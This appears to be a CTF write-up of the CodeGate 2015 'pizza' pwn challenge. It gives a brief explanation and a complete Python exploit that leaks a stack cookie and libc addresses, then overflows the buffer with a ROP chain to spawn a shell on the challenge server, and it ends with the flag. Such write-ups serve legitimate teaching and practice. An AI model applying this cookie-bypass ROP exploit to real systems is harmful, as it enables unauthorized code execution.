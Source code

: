 ```yaml
---
layout: post
title: pwn.blue-lotus.net pizza writeup
catagories: [ctf]
tags: [ctf, writeup, blue-lotus, pwn, exploit]
---
```


> stack overflow, bypass cookie

CodeGate 2015 final pwn. 

Overflow when `5. Change Payload filter`, but we should by pass the cookie on the stack.

Crafting a packet, let it satisfy all the constraints, then the `print_packet` function will print the packet in detail. The length of printed payloads could be controled by us. And then leak the cookie and the __libc_start_main() address on the stack.

Here is the exploit:

```python
#!/usr/bin/env python2
from scapy.all import *
from pwn import *

binary = ELF("pizza")

local = True
local = False
if local:
    io = process("./pizza")
    libc = ELF("./libc.so.6")
    offset = 240
    binsh = 0x0000000000164DEA 
else:
    io = remote("166.111.132.132", 10002)
    libc = ELF("libc-2.19.so")
    offset = 245
    binsh = 0x000000000017CCDB

payload = "AAAAAA" + p8(0x50)

pkt = IP(src="8.0.5.1", dst = "8.0.0.1")/TCP(dport=1286)/payload

wrpcap("temp.pcap", pkt)
fd = open("temp.pcap", "r")
pkt = fd.read()
fd.close()

io.sendlineafter(": ", str(len(pkt)))
io.sendlineafter("data\n", pkt)
io.sendlineafter(">> ", str(6))

io.recvuntil("<Payload>\n")
data = io.recvuntil("Menu:\n")

cookie = data[2382+48: 2382+48+24]
cookie = "".join(cookie.split(" ")).decode("hex")

libc_start = "".join(data[1820+2454:1820+2454+24].split(" ")).decode("hex")
libc_start = u64(libc_start)
print "[+] leak __libc_start_main address: ", hex(libc_start)

libc_base = libc_start - libc.symbols["__libc_start_main"] - offset
system_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + binsh
print "[+] leak libc base address: ", hex(libc_base)
print "[+] leak system() address: ", hex(system_addr)

#0x0000000000402083 : pop rdi ; ret
g1 = 0x0000000000402083 

newpayload = "B"*(0x20-0x8) + cookie + "C" * 8  + p64(g1) + p64(binsh_addr) + p64(system_addr)
io.sendlineafter(">> ", str(5))
io.sendlineafter(": ", newpayload)

io.sendlineafter(">> ", str(7))

io.interactive()

#flag : f4643002-66c7-4418-96fd-70ef72dc0a8d
```
